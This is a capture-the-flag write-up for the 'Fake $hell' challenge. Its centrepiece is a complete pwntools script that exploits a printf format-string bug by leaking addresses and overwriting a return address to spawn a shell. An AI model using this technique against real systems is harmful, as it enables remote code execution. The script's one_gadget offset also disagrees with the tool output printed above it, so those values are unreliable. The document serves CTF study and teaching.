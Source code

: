 # Fake $hell

![alt challenge](./fakeshell.jpg)

### Description
```
While learning programming, I wrote a small fake terminal in C, it's very simple very few
supported commands, and only safe operations (no unsafe system() calls for example).
It is accessible at: terminal.challs.shellmates.club:1337

Goal: Prove you can escape from the fake shell to the real shell.
```
```
pwndbg> checksec 
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    PIE enabled
```
Here is the ![Terminal](./terminal) binary and the ![libc](./libc-2.27.so) files.<br>
When we connect using netcat and check the supported commands, we find these eight commands<br>
```
mate@pwnable:/ $ help
Supported commands
ls	id	whoami	echo	printf
cat	pwd	cd	help	exit
mate@pwnable:/ $
```
good, we can use printf() to leak addresses to bypass ASLR and write anywhere in memory<br>
by looking at the decompiled binay with ghidra we find an interessting function process_cmd()<br>
which executes the parced command and return, we will overwrite its return address to spawn<br>
a shell using one gadget:<br>
```
$ one_gadget libc-2.27.so 
0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
in this ![python script](./exploit.py) i leaked rbp to calculate the address of the format string<br>
and libc_start_main (the return address of main) to calculate the address of one gadget at run time<br>
```python
#!/usr/bin/env python2
from pwn import *

s = remote ('terminal.challs.shellmates.club', 1337)

one_gadget_offset = 0xe87f5

#leaking rbp and calculating the return address
payload = 'printf %8$lp'
s.sendline(payload)
s.recvuntil('0x')
ret  = int(s.recv(12), 16) - 0x418
ret1 = p64(ret)
ret2 = p64(ret + 2)
ret3 = p64(ret + 4)
log.info('return address: '+ str(hex(ret)))

#leaking libc_start_main address and calculating one gadget address
payload = 'printf %141$lp'
s.sendline(payload)
s.recvuntil('0x')
libc_start_main = int(s.recv(12), 16)
one_gadget = libc_start_main + one_gadget_offset
log.info('one gadget address: '+ str(hex(one_gadget)))

#calculating lenght for %n to overwrite the return address with one gadget
length1 = (one_gadget & 0xffff) - 1
length2 = (one_gadget >> 16 & 0xffff) - length1 -1
length3 = (one_gadget >> 32 & 0xffff) - length1 - length2 -1

#to construct the address two bytes at the time, the lengths have to be from smaller to bigger
if (length2 < 0) or (length3) < 0:
    log.info('bad address, try again.')
    exit()


#overwriting the return address with one gadget address
payload  = 'printf a'
payload += '%' + str(length1) + 'd'
payload += '%16$n'
payload += '%' + str(length2) + 'd'
payload += '%17$n'
payload += '%' + str(length3) + 'd'
payload += '%18$nh'
payload  = payload.ljust(0x30, '\0')
payload += ret1 + ret2 + ret3

#the constraint of one gadget is [rsp+0x70] == NULL
payload  = payload.ljust(0x400, '\0')

s.sendline(payload)
s.interactive()
```
# Flag
```
$ cat flag.txt
shellmates{f4ke_term1nal_r3al_pr1%ntf!}
$
```
